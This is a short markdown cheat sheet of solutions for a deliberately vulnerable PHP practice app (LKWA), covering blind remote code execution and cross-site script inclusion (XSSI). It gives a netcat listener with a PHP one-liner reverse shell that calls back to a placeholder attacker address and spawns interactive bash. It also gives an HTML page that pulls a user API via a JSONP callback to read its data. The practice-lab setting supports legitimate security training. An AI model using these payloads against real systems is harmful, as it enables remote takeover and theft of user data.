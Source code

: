 # lkwa-cheatsheet

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the LKWA
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
<body>
    <script>
        function a(s)
        {
        alert(JSON.stringify(s));
        }
    </script>
    <script src="http://localhost:3000/api/user?callback=a"></script>
</body>
</html>
```

deploy: `php -S localhost:3001`

access `http://localhost:3001/index.html` from browser.
